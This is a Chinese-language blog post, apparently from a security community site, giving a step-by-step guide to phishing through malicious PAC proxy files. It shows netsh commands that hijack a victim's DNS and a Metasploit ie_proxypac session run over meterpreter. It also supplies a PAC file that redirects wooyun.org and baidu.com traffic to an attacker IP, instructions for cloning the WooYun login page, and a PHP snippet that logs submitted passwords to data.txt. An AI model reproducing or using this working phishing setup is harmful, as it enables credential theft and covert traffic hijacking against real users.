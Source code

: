 # 通过.PAC进行网络钓鱼

0x00 常见网络钓鱼方式
=============

* * *

攻击者进行网络钓鱼的方式常有以下几种:

**1**. 通过修改受害者hosts文件(`C:\WINDOWS\system32\drivers\etc\hosts`)来实现；

**2**. 通过修改受害者dns来实现；

**3**. 已经进入路由器，直接修改路由器的DNS。

罗列的并不全，之后遇到的话再补充，上述三种方式很常见。

1.  修改HOSTS文件，即攻击者修改受害者HOSTS文件为如下形式：
    
    127.0.0.1 localhost x.x.x.x www.wooyun.com
    

这样就受害者访问www.wooyun.com会直接访问到x.x.x.x。在msf中可以使用[inject_host](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/inject_host.rb)脚本来实现。

1.  修改dns进行攻击：
    
    攻击者可是使用如下命令修改受害者的dns地址(`管理员身份执行`)：
    
    ```
    C:\Windows\system32>netsh interface ip show interfaces        
    
    Idx  Met   MTU   状态          名称
    ---  ---  -----  -----------  -------------------
      1   50 4294967295  connected    Loopback Pseudo-Interface 1
     10   10   1500  connected    本地连接        
    
    C:\Windows\system32>netsh interface ip set dns "本地连接" static 192.168.1.100
    C:\Windows\system32>ipconfig /all | findstr 192.168.1.100
       DNS 服务器  . . . . . . . . . . . : 192.168.1.100
    
    ```
    
    这样就修改了受害者的DNS地址，之后可以使用msf的[fakedns](http://www.rapid7.com/db/modules/auxiliary/server/fakedns)来架设dns服务器来修改域名的解析地址。
    

除了直接修改路由器的DNS地址的以上两种方式在某些环境下还是有一些缺点的，例如，一些牛逼的AV会检测到文件的修改而发出报警，除此之外，如果受害者所处内网环境中的防火墙或路由器拦截对外部的DNS请求，修改受害者DNS的攻击方式并不能生效（因为攻击者架设的DNS在外网环境下）。

0x01 通过PAC代理
============

* * *

本文主要介绍的是Metasploit中的一个模块[ie_proxypac](https://github.com/rapid7/metasploit-framework/blob/2bcdb1bec317f7659d1a1d7609db45f98d4d6df2/modules/post/windows/manage/ie_proxypac.rb)。通过[.PAC(自动配置代理)](http://baike.baidu.com/link?url=zxBitLRRy0pS4ux3SF_cWcauZIs2bhd4eETBFtYQz__4GqO0KBvVoBK5Ox-RS0HTn3Ma30AiFnz5aCbsVIOT5_)文件来完全控制IE的用户流量。只需要修改PAC文件，攻击者就能使受害者访问的某个域名指向攻击者的IP。虽然没有修改DNS但是可以达到同样的效果，且这种方式较为隐蔽。[已经有很多人使用这种方式进行网络钓鱼](https://www.securelist.com/en/analysis/204792308/PAC_the_Problem_Auto_Config)。

下面是一个PAC文件示例：

```
function FindProxyForURL(url, host)
{
if (shExpMatch(host, "www.wooyun.org")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
if (shExpMatch(host, "www.baidu.com")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
}

```

这个文件的配置是当受害者访问www.wooyun.com以及www.baidu.com时，他会直接请求到攻击者ip（ 192.168.52.129）。

> 详细的PAC编写请查看http://findproxyforurl.com/pac-functions/。

将以上脚本保存为test.pac，在获取meterpreter会话的基础上使用ie_proxypac脚本:

```
meterpreter > background 
[*] Backgrounding session 1...
msf > use post/windows/manage/ie_proxypac 
msf post(ie_proxypac) > set session 1
session => 1
msf post(ie_proxypac) > set REMOTE_PAC http://192.168.52.129/test.pac
REMOTE_PAC => http://192.168.52.129/test.pac
msf post(ie_proxypac) > show options     

Module options (post/windows/manage/ie_proxypac):    

   Name           Current Setting         Required  Description
   ----           ---------------         --------  -----------
   AUTO_DETECT    false                           yes       Automatically detect settings.
   DISABLE_PROXY  false                           yes       Disable the proxy server.
   LOCAL_PAC                                      no        Local PAC file.
   REMOTE_PAC     http://192.168.52.129/test.pac  no        Remote PAC file. (Ex: http://192.168.1.20/proxy.pac)
   SESSION        1                               yes       The session to run this module on.
msf post(ie_proxypac) > exploit     

[*] Setting automatic configuration script from local PAC file ...
[+] Automatic configuration script configured...
[*] Post module execution completed    

```

之后打开ie，internet选项->连接->局域网设置：

![Alt text](http://drops.javaweb.org/uploads/images/452034089bc40fc1d262ddd9be4b4f3684f7a587.jpg)

可以看到pac已经使用pac文件进行了代理。

> 代理尽量使用**远程代理**，因为IE11默认禁止本地代理，如果使用本地代理，代理是无效的。[详情](http://blogs.msdn.com/b/ieinternals/archive/2013/10/11/web-proxy-configuration-and-ie11-changes.aspx)测试发现，如果连接了vpn，pac代理是失效的。

现在再访问`www.baidu.com`,`www.wooyun.org`，会看到已经转移到了我们制定的ip：

![Alt text](http://drops.javaweb.org/uploads/images/77dd8277266916242794d5474aeccdf25f8b3be5.jpg)

0x02 能做什么
=========

* * *

这里我们修改pac文件如下：

```
function FindProxyForURL(url, host)
{
if (shExpMatch(host, "www.wooyun.org")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
}

```

**这里ip要改成自己的web的ip**，如果受害者请求的网站host为`www.wooyun.org`时，满足规则，然后跳转到我们指定的ip地址，这里我们可以来构造钓鱼。

打开[wooyun](http://www.wooyun.org/),右键查看源代码，将所有源代码保存为index.html，放在网站根目录下，因为当受害者请求`http://wooyun.org`，其host为`wooyun.org`不满足代理条件，就会直接请求，所以我们把源代码中的`www.wooyun.org`，改为`wooyun.org`:

![Alt text](http://drops.javaweb.org/uploads/images/ae4abc8bbe6c1c1f0cb166a0523f7cd30e35eb6f.jpg)

然后找到url，src，href标签，修改为http://wooyun.org/xxxx 的形式，比如

```
<link href="/css/style.css?v=201501291909" rel="stylesheet" type="text/css"/>

```

修改为

```
<link href="http://wooyun.org/css/style.css?v=201501291909" rel="stylesheet" type="text/css"/>

```

改完以后，基本上就算克隆成功了：

![Alt text](http://drops.javaweb.org/uploads/images/9b5495f592d1c188065715caed8060d120764c45.jpg)

下来要把登陆页面的的源码复制过来，打开`http://www.wooyun.org/user.php?action=login`，右键复制源码，保存为user.php，放在网站根目录下，修改源码中的url，src，href。修改完之后，打开index.html文件，定位`登录`，修改href为`user.php?action=login`，修改以后此标签为：

```
<a href="user.php?action=login">登录</a> | <a href="http://wooyun.org/user.php?action=register" class="reg">注册</a>

```

打开user.php,定位`用户登录`表单，修改表单action为post.php:

```
<a href="#">用户登录</a></div>
        </div>
<form action="post.php" method="POST">  
.....

```

在网站根目录新建post.php，添加如下代码：

```
<?php $file = 'data.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=http://wooyun.org/user.php?action=login" />

```

这样钓鱼站就搭建好了。

当用户登录时：

![Alt text](http://drops.javaweb.org/uploads/images/ec1f858b69171588f7132c74e40cdc4255514f59.jpg)

点击登陆以后会跳转到`http://wooyun.org/user.php?action=login`

![Alt text](http://drops.javaweb.org/uploads/images/fe1e977ee24ea1c64bca22e72ccb292903740fa4.jpg)

查看data.txt:

![Alt text](http://drops.javaweb.org/uploads/images/df51a639053db47be25eae70f0ea729f759210fa.jpg)

> 只是简单地一个示例，具体可以通过修改pac文件来实现控制浏览器是否进行代理。

0x03 小结
=======

* * *

此种方式进行网络钓鱼，做的细致的话，很难被发现，而且隐蔽性好，缺点就是连接vpn以后代理将会失效。以上是个人的测试结果，请各位大牛指正。